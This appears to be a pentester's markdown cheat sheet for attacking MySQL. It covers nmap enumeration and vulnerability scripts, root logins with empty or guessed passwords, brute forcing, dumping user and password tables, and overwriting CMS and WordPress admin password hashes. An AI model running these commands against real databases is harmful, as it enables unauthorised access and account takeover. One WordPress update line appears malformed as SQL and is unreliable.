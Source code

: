 ```yaml
---
category: Uncategorized
tags: []
---
```

#### nmap
```bash - kali
nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse $TARGET -p 3306
```

#### wp-config.php file
```bash - kali
cat wp-config.php
```

#### Remote login
```bash - kali
mysql --host=$TARGET -u root -P 3306 -p
```

#### Local login
```bash - kali
mysql -h localhost -u root -P 3306 -p
```

#### passwords
Try with empty password or:

```bash - kali
root
```

or brute:

![[TechLexicon/Penetration Testing/Reference/7._Tools/Hydra#Hydra against MySQL]]

```SQL
show databases;
```

```SQL
use <DATABASE>;
```

```SQL
show tables;
```

```SQL
describe <TABLE>;
```

```SQL
select * from <TABLE>;
```

or

```SQL
select usernames,passwords from <TABLE>;
```

![[Pasted image 20220126101801.png]]

#### Change password
```SQL
update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin';
```

**cms_siteprefs would be found under show tables;**

![[Pasted image 20220126102546.png]]

or

```bash - kali
echo -n 'admin' | md5sum
```

==21232f297a57a5a743894a0e4a801fc3==

```SQL
update cms_users SET password='21232f297a57a5a743894a0e4a801fc3' WHERE username='admin';
```

![[Pasted image 20220126101821.png]]

#### MYSQL UDF 4.x/5.0
[https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/](https://www.adampalmer.me/iodigitalsec/2013/08/13/mysql-root-to-system-root-with-udf-for-windows-and-linux/)

```bash - kali
nmap --script=mysql-brute $TARGET
```

```bash - kali
mysql -u username -h $TARGET -p
```

```bash - kali
mysql --host=127.0.0.1 --port=13306 --user=wp -p
```

#### MySQL to Wordpress password

```bash - kali
mysql -u root -h $TARGET -p
```

Try with empty password, also try with password:

```bash - kali
root
```

```bash - kali
select * from users
```

```bash - kali
UPDATE 'users' SET 'pass'=MD5('password') WHERE 'user_login' = 'admin';
```
